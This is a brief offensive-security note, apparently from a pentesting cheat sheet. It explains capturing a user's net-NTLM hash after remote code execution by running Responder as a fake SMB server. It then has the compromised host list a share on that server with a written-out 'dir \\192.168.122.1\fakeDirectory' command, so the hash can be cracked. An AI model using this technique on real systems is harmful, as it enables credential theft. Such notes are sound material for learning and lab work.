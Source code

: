 If we managed to get RCE in host but we don't know the credentials of the user. Then we can start up a fake SMB server,
Then in the compromised host we try to access the shares in the fake SMB server. This well force the host to introduce 
the net-NTLM hash to SMB server. We can use this for cracking the hash to get the password.

We can use `responder` as SMB server, then in the host try to access the fake SMB server like:

```powershell
dir \\192.168.122.1\fakeDirectory 
```
After hitting enter we will get the NTLM hash of the user.